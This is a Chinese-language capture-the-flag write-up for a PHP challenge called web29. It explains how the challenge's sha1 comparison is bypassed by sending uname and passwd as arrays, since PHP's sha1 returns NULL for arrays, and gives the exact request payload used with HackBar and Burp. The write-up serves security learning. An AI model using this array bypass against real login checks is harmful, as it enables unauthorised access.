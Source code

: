 # web29
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618659920742-QQ%E5%9B%BE%E7%89%8720210121204323.png)
题目描述

各种绕过

进入环境
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618659945516-4002412210162.png)

```php
<?php
highlight_file('flag.php');
$_GET['id'] = urldecode($_GET['id']);
$flag = 'flag{xxxxxxxxxxxxxxxxxxx}';
if (isset($_GET['uname']) and isset($_POST['passwd'])) {
	if ($_GET['uname'] == $_POST['passwd'])
		print 'passwd can not be uname.';
	else if (sha1($_GET['uname'] === sha1($_POST['passwd']) & ($_GET['id']) == 'margin'))
		die('Flag:'. $flag);
	else
		print 'sorry';
}
?>
```

大致意思是
解码get请求id的参数
判断get请求的uname是否为空和post请求的passwd是否为空
再嵌套判断get请求的uname是否弱等于post请求的passwd
成立就打印'passwd can not be uname'
或者判断get请求的uname的sha1加密的值是否绝对等于post请求的passwd的sha1值再一起执行get请求的ip是否等于'margin'
条件成立就退出程序并打印flag
否则就打印'sorry'

emmmm
没啥东西就是比较绕而已
重要的就是sha1那个地方
在php中这些加密和编码的函数无法对数组执行
对数组执行了就会报错
并返回NULL值
然会就会NULL和NULL比较
就会返回布尔值true条件为真
```php
 1 <?php                         
 2 error_reporting(0);           
 3 $a = $_GET['a'];              
 4 $b = $_GET['b'];              
 5 if (isset($a) and isset($b)) {
 6 ▸ $c = sha1($a) === sha1($b); 
 7 ▸ $s = sha1($a) == sha1($b);  
 8 ▸ var_dump($c);               
 9 ▸ echo "<br>";                
10 ▸ var_dump($s);               
11 ▸ echo "<br>";                
12 ▸ var_dump(sha1($a));         
13 ▸ echo "<br>";                
14 ▸ var_dump(sha1($b));         
15 }                             
```
执行结果
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618660593943.png)


构造payload
>?uname[]=1&id=margin
>passwd[]=2

使用hackbar
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618660647840-2859129228588.png)
使用bp
![](https://bulabula-1305079562.cos.ap-guangzhou.myqcloud.com/img/1618660735809-2386131216455.png)

得到flag





